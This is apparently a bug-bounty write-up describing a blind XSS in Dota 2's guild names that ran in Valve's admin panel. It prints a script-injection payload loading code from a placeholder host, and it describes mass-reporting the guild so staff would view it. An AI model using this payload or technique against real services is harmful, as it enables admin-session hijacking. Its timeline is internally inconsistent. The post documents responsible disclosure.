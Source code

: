 ```yaml
---
comments: true
title: "Blind XSS Found Via In-Game Feature of Dota 2 \U0001F3AE"
date: 2022-03-31 00:00:00 +0700
category:
- bugbounty
tags:
- xss
- web
- dota2
private: false

---
```

The finding started when Dota 2 is announcing the new feature for the battle pass owner that is being able to create a guild in the game the update was around october 2020.

![Dota 2 Update ](/uploads/screen-shot-2022-03-31-at-14-03-20.png "Dota 2 Update ")

> **Guild Updates**
>
> We reintroduced Guilds during the Battle Pass, and we were happy to see how many players participated in Guilds and shared their feedback with us. We are keeping the existing Guilds, but many of the rewards received only worked in the context of the Battle Pass. We've redesigned those features so that you can enjoy playing with your guild all the time.
>
> \- [https://www.dota2.com/newsentry/3066366095799664170](https://www.dota2.com/newsentry/3066366095799664170 "https://www.dota2.com/newsentry/3066366095799664170")

Because i was an active player of the game and also bugbounty hunter, my idea just popped out to create guild with the Blind XSS Payload name, without even thingking the payload will executed somewhere on the valve systems.

![](/uploads/create-guild.png)

my first thought is wrong and the exploit was executed on the Dota 2 administration panel, which is a web application hosted on dota2.com which make me excited 🙀🙀🙀.

![Dota 2 Admin panel](/uploads/blind-xss.png "Dota 2 Admin panel")

This is was the admin panel looks like, rather than trying to escalating my privilege with the javascript execution i have, i just report what i found immediatelly to the [https://hackerone.com/valve](https://hackerone.com/valve "H1 Valve") team.

After my investigation to the vulnerability my conclusion is, the more guild registered to the system is more hard of our exploit being viewed by the staff that logged-in to the administrator panel because the table list of guild was sorted by the amount of report received to the guild, so to reproduce it for the second time i was using this steps below:

* Create guild with a blind xss payload as the name `'"><script src=//domain></script>`
* Report the guild name multiple times, until you feel the report amount is enough to make our guild listed on the first page.
* Profit! `alert(1)`

There is 3 form of report that can a guild get, `report guild name`, `report guild logo`, `report guild tag` and all of the report amount is combined to `total_reports` that will used as the sorted value when the `datatable` is loaded on the application.

I was automating this process to login to the game and report my guild repeatedly to get the amount of `total_reports` i want to get my guild on the first page of the `datatable` since the table is configured to only show 50 rows for each page, to get this was not hard since i was testing when the feature is just released couple days ago.

VIDEO

***

Jun 12 2020: Reported  
Jun 12 2020: Severity Changed Crit -> High ( I don't get it actually, since the admin panel is manage all the information of the game like the ip address of the game, also i can possibly banned a player there, pro player information also stored there )  
Jun 16 2020: Triaged  
Sept 8 2020: Severity Changed High -> Med ( 😪 )  
Sept 8 2020: Rewarded 750USD + 150USD Bonus

Proof(UNDISCLOSED yet): [https://hackerone.com/reports/896281](https://hackerone.com/reports/896281 "https://hackerone.com/reports/896281")